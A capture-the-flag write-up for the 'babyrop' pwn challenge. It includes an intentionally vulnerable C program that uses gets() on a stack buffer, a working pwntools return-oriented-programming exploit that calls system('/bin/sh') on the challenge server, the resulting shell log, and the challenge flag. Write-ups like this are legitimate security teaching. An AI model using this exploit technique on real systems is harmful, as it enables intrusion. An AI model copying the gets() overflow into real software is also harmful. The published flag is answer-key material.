

# babyrop [Pwn]

## Prompt
You are ready for more return-oriented programming.

``` bash
nc challs1.nusgreyhats.org 5012
```



## Files
[babyrop.tar.gz](./files/babyrop.tar.gz)

## Description

As seen in the [C file](./files/babyrop.c) below, our aim is to allocate `*favourite_shell` variable as the register that is used as input for `system` function. We must then force the code to call onto the `system` function after this reallocation of variables/register values. Afterwhich, we can then run a shell within the server's machine to hopefully find and obtain the flag.

``` c
// babyrop.c

/* gcc -no-pie -fno-stack-protector ./babyrop.c -o babyrop */
#include <stdio.h>

char *favorite_shell = "/bin/sh";

int main() {
    puts("The time now is:");
    system("date");

    printf("My favorite shell is %s\n", favorite_shell);

    char buf[32];
    gets(buf);
    return 0;
}
```

With that, we can craft our payload into our [script](./files/baby-code.py). We used the pwn library for python for this. For the determination of values for `PAYLOAD` we used [Ghidra](https://ghidra-sre.org/) and [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) to analyse the assembly instructions and work from ther.

``` python
from pwn import *

HOST = "challs1.nusgreyhats.org"
PORT = 5012
BINARY = "./babyrop"
BABYROP = ELF('./babyrop')

PAYLOAD =  p64(0x0000000000400486) * 8  # RET x 8 (POP)
PAYLOAD += p64(0x0000000000400683)      # PUSH
PAYLOAD += p64(0x004006a4)              # address of "/bin/sh"
PAYLOAD += p64(BABYROP.plt['system'])   # CALL 'system'

r = remote(HOST, PORT)  # server
# r = process(BINARY)   # local

pause()
r.sendline(PAYLOAD)
r.interactive()
```

Running the python script will then give use the flag!

``` bash
$ python3 baby-code.py
[*] 'babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challs1.nusgreyhats.org on port 5012: Done
[*] Paused (press any to continue)
[*] Switching to interactive mode
Mon Aug 16 09:29:31 UTC 2021
$ ls
flag.txt
run
$ cat flag.txt
greyhats{4n_e4sy_0ne_f0r_y0u_82hhd2dh8dh}
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
```

## Flag
`greyhats{4n_e4sy_0ne_f0r_y0u_82hhd2dh8dh}`